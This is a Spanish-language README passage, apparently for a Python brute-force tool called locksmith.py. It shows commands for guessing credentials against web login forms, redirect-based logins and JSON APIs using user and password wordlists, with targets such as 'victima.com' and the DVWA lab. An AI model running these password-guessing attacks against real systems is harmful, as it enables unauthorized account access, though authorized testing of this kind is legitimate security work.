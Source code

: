## ⚙️ Uso básico

### Definir objetivo
- Un único objetivo:
  ```bash
  python locksmith.py -u http://victima.com/login.php
  ```
- Lista de objetivos:
  ```bash
  python locksmith.py -l targets.txt
  ```

### Diccionarios de ataque
- Usuarios (`-U`)  
- Contraseñas (`-P`)  

Ejemplo:
```bash
python locksmith.py -u http://victima.com/login.php -U users.txt -P passwords.txt -m "Login Failed"
```

---

## 🌐 Ejemplos de uso

### 1. Ataque a formulario web tradicional
```bash
python locksmith.py -u http://dvwa/login.php -U users.txt -P passwords.txt -m "Login Failed" -p http_form
```

### 2. Ataque basado en redirecciones
```bash
python locksmith.py -u http://dvwa/login.php -U users.txt -P passwords.txt -p http_redirect -m "login.php"
```

### 3. Ataque contra API REST (JSON)
Ejemplo de login típico en JSON:
```http
POST /api/login HTTP/1.1
Content-Type: application/json

{
  "user": "juan",
  "pass": "1234"
}
```

Ejecución:
```bash
python locksmith.py -u http://victima.com/api/login -U users.txt -P passwords.txt -p http_json -i '{"username":"user","password":"pass"}' -m "error"
```

---